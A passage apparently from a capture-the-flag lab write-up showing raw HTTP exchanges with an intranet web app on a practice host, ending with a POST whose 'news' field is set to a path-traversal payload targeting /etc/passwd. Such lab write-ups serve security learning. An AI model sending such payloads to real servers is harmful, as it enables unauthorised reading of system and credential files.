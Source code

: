 ```bash
Priority: u=0, i

news=latest
```

<h6>Response</h6>

```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Wed, 01 Oct 2025 15:53:46 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1684
Vary: Cookie
Connection: close


<!DOCTYPE html>
...
 <li><a href="/external">External News</a></li>
  <li><a href="/admin">Admin</a></li>
  <li><a href="/logout">Log Out</a></li>
...
Any cool news we should know about? Contact us!</p>
  <p>internal@securesolacoders.no</p><br>

<form action="/internal" method="POST">
    <h4>Update news feed</h4>
    <button type="submit" name="news" id="news" value="latest">Update</button>
  
</form>
    
    
      No more news today!
Please check again later.
```

<br>
<br>
<br>

<br>
<br>
<h6>Request</h6>

```bash
POST /internal HTTP/1.1
Host: intranet.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://intranet.thm:8080
Connection: keep-alive
Referer: http://intranet.thm:8080/internal
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.aN1NTg.wj8ABWJCK5uSDPyexxkuF718-94
Upgrade-Insecure-Requests: 1
Priority: u=0, i

news=../../../etc/passwd
```
